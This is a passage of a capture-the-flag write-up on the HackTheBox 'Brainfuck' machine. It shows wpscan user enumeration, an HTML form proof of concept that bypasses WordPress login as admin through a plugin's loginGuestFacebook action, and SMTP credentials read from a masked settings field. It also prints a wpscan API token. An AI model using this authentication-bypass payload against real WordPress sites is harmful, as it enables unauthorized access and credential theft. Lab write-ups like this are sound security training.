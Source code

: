We only need the username so we can rerun `wpscan`, but with `--enumerate u` to also enumerate users.

```bash
luc@kali:~/HTB/Brainfuck$ wpscan --url https://brainfuck.htb --disable-tls-checks --api-token 1tOuZjR3zQ0xOtaZUQhD7dbsLIcrqOK3Gr1NYpNxKaw --enumerate u
...
[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

We've 2 users, `admin` & `administrator`, now we can edit the proof of concept and make it work for this machine.

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Browsing to this html in our browser and submitting the form will send the following request

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: brainfuck.htb

username=admin&email=sth&action=loginGuestFacebook
```

If we log the response in Burp Suite we'll see that the response is an empty page, but that cookie values are being set. With those cookies set we're logged in as admin when we browse back to `https://brainfuck.htb/`.

There is one post on this Wordpress website and it notes that the SMTP integration is ready. This means that this has recently been setup so if we find credentials they have a high chance of working because there has been less time in which a user has changed those credentials.

Dashboard -> Settings -> Easy WP SMTP shows the SMTP settings including a password field. This input field has `type=password`, but we can still ready the value via the Chrome developer tools. We know have our first set of credentials, `orestis@brainfuck.htb` with password `kHGuERB29DNiNE`.

We've 2 emails, one from root@brainfuck.htb and one from wordpress@brainfuck.htb. The one from wordpress@brainfuck.htb doesn't contain any information, but the one from root@brainfuck.htb is interesting.
